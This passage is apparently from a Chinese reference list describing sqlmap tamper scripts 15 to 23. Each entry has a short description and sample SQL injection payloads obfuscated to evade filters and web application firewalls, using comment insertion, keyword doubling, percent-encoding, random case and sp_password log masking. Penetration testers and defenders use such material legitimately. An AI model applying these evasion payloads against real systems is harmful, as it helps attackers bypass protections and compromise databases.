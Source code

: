     (15) multiplespaces.py 添加多个空格 
    Example: 
    Input: UNION SELECT 
    Output:  UNION   SELECT 

    (16) nonrecursivereplacement.py 可以绕过对关键字删除的防注入（这个我也不知道怎么说好，看例子。。。） 
    Example: 
    Input: 1 UNION SELECT 2-- 
    Output: 1 UNUNIONION SELSELECTECT 2-- 

    (17) percentage.py 在每个字符前添加百分号（%） 
    Example: 
    Input: SELECT FIELD FROM TABLE 
    Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E 
    Requirement: 
    ASP 

    (18) randomcase.py 随即大小写 
    Example: 
    Input: INSERT 
    Output: InsERt 

    (19) randomcomments.py 随机插入区块注释 
    Example: 
    'INSERT' becomes 'IN/**/S/**/ERT' 
    securesphere.py 语句结尾添加”真”字符串 
    Example: 
    Input: AND 1=1 
    Output: AND 1=1 and '0having'='0having' 

    (20) sp_password.py 语句结尾添加”sp_password”迷惑数据库日志（很。。。） 
    Example: www.2cto.com 
    Input: 1 AND 9227=9227-- 
    Output: 1 AND 9227=9227--sp_password 
    Requirement: 
    MSSQL 

    (21) space2comment.py 以区块注释替换空格 
    Example: 
    Input: SELECT id FROM users 
    Output: SELECT/**/id/**/FROM/**/users 

    (22) space2dash.py 以单行注释”--”和随机的新行替换空格 
    Example: 
    Input: 1 AND 9227=9227 
    Output: 1--PTTmJopxdWJ%0AAND--cWfcVRPV%0A9227=9227 
    Requirement: 
    MSSQL 
    SQLite 

    (23) space2hash.py 以单行注释”#”和由随机字符组成的新行替换空格 
    Example: 
    Input: 1 AND 9227=9227 
    Output: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227 
    Requirement: 
    MySQL 
